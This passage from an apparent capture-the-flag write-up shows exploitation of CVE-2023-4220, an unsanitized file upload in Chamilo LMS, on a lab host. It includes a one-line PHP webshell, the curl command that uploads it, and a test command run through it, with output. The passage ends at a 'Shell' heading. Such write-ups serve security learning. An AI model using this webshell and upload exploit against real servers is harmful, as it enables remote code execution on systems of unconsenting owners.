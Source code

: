 ![image-20240706223944299](/img/image-20240706223944299.png)

These are all authenticated. There is one more that is unauthenticated:

![image-20240706224100499](/img/image-20240706224100499.png)

### CVE-2023-4220

#### Background

[CVE-2023-4220](https://nvd.nist.gov/vuln/detail/CVE-2023-4220) allows a “stored cross-site scripting attack” to lead to remote code execution (RCE) via a webshell.

This [StarLabs advisory](https://starlabs.sg/advisories/23/23-4220/#proof-of-concept) goes into detail about the vulnerability. It’s not immediately clear to me why they call this a XSS. It is more just an unsanitized upload issue. An attacker can upload a file and control the name given, so it can end with `.php`.

For this attack to work, the folder `/main/inc/lib/javascript/bigupload/files` must exist.

#### PermX POC

I’ll first check that the necessary directory exists, and it does:

![image-20240706224658511](/img/image-20240706224658511.png)

It’s empty. I’ll create a simple PHP webshell:

```

<?php system($_REQUEST['cmd']); ?>

```

Now I’ll use `curl` to POST it as a file to the vulnerable page (following the example in the Starlabs advisory):

```

oxdf@hacky$ curl -F 'bigUploadFile=@0xdf.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
The file has successfully been uploaded.

```

I’ll test the webshell by accessing it with `curl`:

```

oxdf@hacky$ curl http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/0xdf.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

### Shell
